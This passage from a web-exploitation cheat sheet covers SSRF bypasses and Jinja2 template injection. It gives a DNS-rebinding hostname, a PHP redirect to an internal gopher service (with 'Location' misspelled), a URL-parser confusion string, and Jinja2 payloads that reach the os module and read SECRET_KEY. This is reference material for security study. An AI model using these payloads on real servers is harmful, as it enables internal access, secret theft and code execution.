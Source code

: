     - 36573657.7f000001.rbndr.us
  - 302 Bypass
    > If the environment does not block http redirect, query your own web server which respond
    >
    > ```php
    > <?php
    >   Header("Locathon: gopher://127.0.0.1:9000/_...")
    > ?>
    > ```
  - URL Parser
    - `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`
      | 1.1.1.1 | 2.2.2.2  | 3.3.3.3 |
      |:-------:|:--------:|:-------:|
      | urllib2 | requests | urllib  |
      | httplib |          |         |
- Case Study
  - [$1.000 SSRF in Slack](https://elbs.medium.com/1-000-ssrf-in-slack-7737935d3884)
  - [A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

#### SSTI
- Identify Template Engine
  ![](https://miro.medium.com/max/701/1*3hIShkWH_gjOt1b0LNPURQ.png)
- Jinja2
  > [Flask default template engine (doc)](https://jinja.palletsprojects.com/en/3.1.x/)  
  > [Exploiting Jinja SSTI with limited payload size.](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)  
  > [GreHack 2021 - Optimizing Server Side Template Injections payloads for jinja2](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)  
  > [RCE-bypassing-as-much-as-I-possibly-can](https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can)  
  > [On SSTI & bypass of jinja2](https://chowdera.com/2020/12/20201221231521371q.html)  
  > [Builtin Filters](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

  - Get `os`
    - `{{lipsum.__globals__.os}}`
    - `{{cycler.__init__.__globals__.os}}`
  - Load `os`
    - `{{config.from_object('os')}}`
  - `{{ config }}`
    - config.SECRET\_KEY
    - config.from\_pyfile(filename)
  - `{{ request }}`
    - request.args.name
    - request.cookies.name
    - request.headers.name
    - request.values.name
    - request.form.name
  - sandbox bypass

